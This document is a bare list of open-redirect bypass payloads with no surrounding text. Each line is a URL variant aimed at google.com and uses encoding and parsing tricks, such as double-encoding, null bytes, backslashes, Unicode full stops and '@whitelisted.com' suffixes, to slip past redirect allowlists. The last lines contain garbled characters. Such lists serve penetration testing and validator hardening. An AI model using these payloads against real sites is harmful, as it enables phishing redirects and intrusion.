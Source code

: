 //google%00.com
/\google%252ecom
google%252ecom
<>//google.com
/<>//google.com
//;@google.com
///;@google.com
/////google.com/
/////google.com
////\;@google.com
////google.com//
////google.com/
////google.com
///\;@google.com
///google.com//
///google.com/
///google.com
//\/google.com/
//\google.com
//google.com//
//google.com/
//google.com
/.google.com
/\/\/google.com/
/\/google.com/
/\/google.com
/\google.com
/〱google.com
/google.com
../google.com
.google.com
@google.com
\/\/google.com/
〱google.com
google.com
google.com%23@whitelisted.com
////google.com/%2e%2e
///google.com/%2e%2e
//google.com/%2e%2e
/google.com/%2e%2e
//google.com/%2E%2E
////google.com/%2e%2e%2f
///google.com/%2e%2e%2f
//google.com/%2e%2e%2f
////google.com/%2f..
///google.com/%2f..
//google.com/%2f..
//google.com/%2F.. 
/google.com/%2F.. 
////google.com/%2f%2e%2e
///google.com/%2f%2e%2e
//google.com/%2f%2e%2e
/google.com/%2f%2e%2e
//google.com//%2F%2E%2E
//google.com:80?@whitelisted.com/
//google.com:80#@whitelisted.com/
google.com/.jpg
//google.com\twhitelisted.com/
//google.com/whitelisted.com
//google.com\@whitelisted.com
google.com/whitelisted.com
//google%E3%80%82com
/http://Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ
/http:/Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ